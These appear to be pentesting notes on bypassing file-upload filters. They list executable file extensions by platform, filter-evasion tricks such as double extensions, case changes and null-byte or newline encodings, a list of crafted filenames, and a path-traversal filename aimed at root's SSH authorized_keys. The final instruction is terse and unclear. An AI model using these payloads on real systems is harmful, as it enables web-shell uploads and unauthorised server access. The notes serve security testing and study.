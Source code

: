 
https://book.hacktricks.xyz/pentesting-web/file-upload

#### ASPX or PHP
Find out if the back-end is running ASPX or PHP.
ASPX is usually windows (make sure to adjust payloads and shells)
PHP can be either. Check the NMAP log.

There are ASPX and PHP reverse shells.
#### Bypassing filters
###### General extensions
```
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
 - Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp
ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
Coldfusion: .cfm, .cfml, .cfc, .dbm
Flash: .swf
Perl: .pl, .cgi
Erlang Yaws Web Server: .yaws
```

#### Extension filters
###### General filter types
| Filter | Bypasses |
| ---- | ---- |
| Case checking | `.pHp` |
| First extension checking | `.png.php` |
| Adding a special character | `.php%00`, `.php%0a` |
| Secondary filetypes | `.php5`, `.php2` |
###### Small list
```
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....

file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png

file.png.jpg.php
file.php%00.png%00.jpg

file.php.png
```

### Non-executables
In `Burp Suite`, change the file to any known user
```
filename="../../../../../../../root/.ssh/authorized_keys"
```